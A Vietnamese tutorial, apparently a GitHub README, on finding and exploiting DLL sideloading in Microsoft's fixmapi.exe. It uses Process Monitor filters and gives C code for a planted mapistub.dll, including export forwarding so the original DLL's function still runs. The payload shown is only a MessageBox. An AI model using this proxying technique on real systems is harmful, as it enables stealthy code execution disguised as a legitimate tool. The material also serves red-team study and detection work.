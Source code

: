 ## DLL Sideloading

DLL Sideloading là 1 kĩ thuật tận dụng lỗ hổng bảo mật ứng dụng trong thứ tự load DLL. Hiểu một cách đơn giản, đáng ra ứng dụng sẽ kiểm tra dll cần thiết ở các vị trí quan trọng hơn trước (ex. `C:\Windows\System32\`), nhưng thay vào đó lại kiểm tra thư mục hiện tại chứa ứng dụng trước, điều này cho phép tạo 1 phiên bản DLL độc hại và đặt nó vào trong thư mục hiện tại, giúp cho DLL sẽ được tải và thực thi.

### Tìm kiếm DLL Sideloading fixmapi.exe 

`fixmapi.exe` là công cụ chuẩn đoán của Microsoft cung cấp để khắc phục sự cố liên quan đến Giao diện lập trình ứng dụng nhắn tin (MAPI), có thể tìm kiếm công cụ này tại `C:\Windows\System32\`. Sử dụng `Process Monitor` để tìm kiếm DLL Sideloading trong ứng dụng này. Setup filter của ứng dụng như dưới:

![processname](images/processname.png)

Sau khi áp dụng bộ lọc, thực hiện chạy ứng dụng, xem kết quả:

![proc1](images/proc1.png)

Trong trường hợp có lỗ hổng DLL Sideloading, ứng dụng sẽ không tìm thấy DLL và kết quả sẽ là `NAME NOT FOUND`, vì vậy chỉ cần áp dụng thêm 1 bộ lọc cho `Result` như ở dưới:

![namenotfound](images/namenotfound.png)

Sau khi áp dụng, ta được kết quả là những file không tìm thấy như sau:

![proc2](images/proc2.png)

Có thể thấy ứng dụng đã tìm kiếm `mapistub.dll` tại vị trí `C:\User\vuong\Desktop\Test Sideloading\` nhưng không tìm thấy => `fixmapi.exe` chứa Sideloading với `mapistub.dll`.

### Tạo DLL khai thác Sideloading

Tạo mã `MessageBox` đơn giản khi DLL được load đơn giản:

```c
#include <iostream>
#include <thread>


BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Hello", "Hello", MB_OK);
        break;
    case DLL_THREAD_ATTACH:
        
        break;
    case DLL_THREAD_DETACH:
        
        break;
    case DLL_PROCESS_DETACH:
        
        break;
    }
    return TRUE;
}
```

Đổi tên dll thành `mapistub.dll` và đặt vào cùng thư mục với `fixmapi.exe`, chạy file và nhận được kết quả:

![result1](images/result1.png)

Và kèm theo 1 lỗi:

![error1](images/error1.png)

Debug với x64dbg và tìm kiếm vị trí load DLL, ta nhận thấy nó đang tìm kiếm hàm export của DLL là `FixMAPI`, vì lý do không tìm thấy nên gây là lỗi, sử đổi mã để fix lỗi trên:

```c
extern "C" __declspec(dllexport) void FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);
}
```

Thay vì thêm mã vào phần `DLL_PROCESS_ATTACH`, nên xây dựng hàm export. Điều này có thể tránh 1 số lỗi, nổi bật là lỗi liên quan đến thư viện phụ thuộc, trong trường hợp các thư viện load sau đó cần tới thư viện DLL ban đầu, tuy nhiên DLL đầu của chúng ta đang phải thực thi hàm trong `DLL_PROCESS_ATTACH`, dẫn tới việc nó load chưa xong và gây ra lỗi.

### DLL Proxying

Để tăng tính chân thực cho việc Sideloading, điều quan trọng là cần đảm bảo exe thực thi đúng những gì đáng ra nó cần làm, vì vậy cần đảm bảo DLL mang những chức năng thực sự của nó. Có 1 video đã nói đến việc này, sử dụng 1 vài tool hiệu quả để tạo ra 1 DLL vừa chứa mã độc hại vừa chứa chức năng như DLL ban đầu: https://www.youtube.com/watch?v=P7lLDM6cHpc

Ở dưới sẽ nói về cách custom code để làm được việc này.

Đối với 1 số hàm export được sử dụng, ta có thể sử dụng proxying bằng cách đổi tên DLL gốc thành 1 tên khác, đặt cùng với thư mục với dll sideloading, sau đó trong dll sideloading, thực hiện 1 số dòng code có format như sau. (Giả sử dll gốc được đổi tên thành tempdll.dll).

```c
#pragma comment(linker,"/export:FixMAPI=tempdll.FixMAPI,@14")
```

Trong đó `@14` là ordinal của export function, có thể tìm kiếm giá trị này bằng các công cụ xem PE format như CFF explore.

Đối với hàm sẽ đặt code sideloading, cần sử đổi 1 chút để nó có thể vừa thực thi mã độc hại, vừa hỏi đến hàm cần thiết.

```c
extern "C" __declspec(dllexport) PVOID FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);

    HMODULE hModule = LoadLibraryA("tempdll.dll");

    if (!hModule) {
        return nullptr;
    }

    fnFixMAPI pFixMAPI = (fnFixMAPI)GetProcAddress(hModule, "FixMAPI");
    if (!pFixMAPI) {
		return nullptr;
	}

    return pFixMAPI();
}
```

